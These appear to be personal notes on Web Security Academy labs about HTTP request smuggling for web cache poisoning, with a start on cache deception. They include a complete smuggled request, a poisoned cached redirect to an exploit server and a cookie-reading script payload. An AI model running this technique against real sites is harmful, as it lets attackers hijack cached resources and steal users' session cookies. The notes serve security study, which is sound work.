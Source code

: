 ### Perform web cache poisoning
1) search for : 
    - [Turn an on-site redirect into an open redirect](#turn-an-on-site-redirect-into-an-open-redirect)
    - [Turning root-relative redirects into open redirects](#turning-root-relative-redirects-into-open-redirects)
    - Open Redirect

2) Search for **static files** or **pages** that **web cached**
3) Send a smuggled request that will cause a redirect
4) follow it with the static file or page that will be cached
```
explain:
The smuggled request reaches the back-end server, which responds as before with the off-site redirect.
when you send static file or page that will be cached The front-end server caches this response against what it believes is the URL in the second request 
```
**EX:**
- send smuggled request
```http
POST / HTTP/1.1
Host: 0a4b001603fa601c84288b25008c0095.web-security-academy.net
Cookie: session=e5lMUxw5fHwFHQWQW2SZ2oe8oLgcKoak
Content-Type: application/x-www-form-urlencoded
Content-Length: 145
Transfer-Encoding: chunked

0

GET /post/next?postId=2 HTTP/1.1     => redirect
Host: exploit-0a610039035b603c84078a7c01ca002a.exploit-server.net/exploit?test=
Content-Length: 10

x=1
```
- send the file that will be cached
```http
GET /resources/js/tracking.js HTTP/1.1
Host: 0a4b001603fa601c84288b25008c0095.web-security-academy.net
```
- check that it is chached and Location to your server 
```http
HTTP/1.1 302 Found
Location: https://exploit-0a610039035b603c84078a7c01ca002a.exploit-server.net/exploit?test=/post?postId=3
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 9
X-Cache: hit
Connection: close
```
- the response that contain your evil script
```http
HTTP/2 200 OK
Content-Type: application/javascript; charset=utf-8
Server: Academy Exploit Server
Content-Length: 22

alert(document.cookie)
```
### Perform web cache deception
**web cache deception**:the attacker causes the application to store some sensitive content belonging to another user in the cache, and the attacker then retrieves this content from the cache. 
- request that returns some sensitive user-specific content
```http
```